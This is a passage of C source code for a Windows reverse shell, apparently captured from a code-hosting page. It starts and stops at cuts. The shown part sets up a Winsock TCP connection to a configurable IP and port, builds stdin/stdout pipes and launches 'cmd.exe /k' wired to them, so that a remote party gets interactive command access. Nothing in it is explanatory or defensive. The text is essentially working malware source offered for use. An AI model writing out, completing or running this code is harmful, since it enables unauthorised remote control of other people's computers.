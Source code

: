 ```c
} ThreadParams;

DWORD WINAPI OutputThreadFunc(LPVOID data);
DWORD WINAPI InputThreadFunc(LPVOID data);
void CleanUp(HANDLE hInputWrite, HANDLE hInputRead, HANDLE hOutputWrite, HANDLE hOutputRead, PROCESS_INFORMATION processInfo, addrinfo* result, SOCKET sock);

int main(int argc, char** argv) {
    WSADATA wsaData;
    int err = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (err != 0) {
        fprintf(stderr, "WSAStartup failed: %d\n", err);
        return 1;
    }

    SOCKET sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, WSA_FLAG_OVERLAPPED);
    if (sock == INVALID_SOCKET) {
        fprintf(stderr, "Socket function failed with error = %d\n", WSAGetLastError());
        WSACleanup();
        return 1;
    }

    struct addrinfo hints = { 0 };
    hints.ai_family = AF_INET;
    hints.ai_socktype = SOCK_STREAM;
    struct addrinfo* result;
    err = getaddrinfo(IP, PORT, &hints, &result);
    if (err != 0) {
        fprintf(stderr, "Failed to get address info: %d\n", err);
        CleanUp(NULL, NULL, NULL, NULL, { 0 }, result, sock);
        return 1;
    }

    if (WSAConnect(sock, result->ai_addr, (int)result->ai_addrlen, NULL, NULL, NULL, NULL) == SOCKET_ERROR) {
        fprintf(stderr, "Failed to connect.\n");
        CleanUp(NULL, NULL, NULL, NULL, { 0 }, result, sock);
        return 1;
    }

    SECURITY_ATTRIBUTES sa = { sizeof(SECURITY_ATTRIBUTES), NULL, TRUE };
    HANDLE hInputWrite, hOutputRead, hInputRead, hOutputWrite;
    if (!CreatePipe(&hOutputRead, &hOutputWrite, &sa, 0) || !CreatePipe(&hInputRead, &hInputWrite, &sa, 0)) {
        fprintf(stderr, "Failed to create pipe.\n");
        CleanUp(NULL, NULL, NULL, NULL, { 0 }, result, sock);
        return 1;
    }

    STARTUPINFO startupInfo = { 0 };
    startupInfo.cb = sizeof(startupInfo);
    startupInfo.dwFlags = STARTF_USESTDHANDLES;
    startupInfo.hStdInput = hInputRead;
    startupInfo.hStdOutput = hOutputWrite;
    startupInfo.hStdError = hOutputWrite;
    PROCESS_INFORMATION processInfo;

    WCHAR cmd[] = L"cmd.exe /k";
    if (!CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo)) {
        fprintf(stderr, "Failed to create process.\n");
        CleanUp(hInputWrite, hInputRead, hOutputWrite, hOutputRead, processInfo, result, sock);
        return 1;
    }
```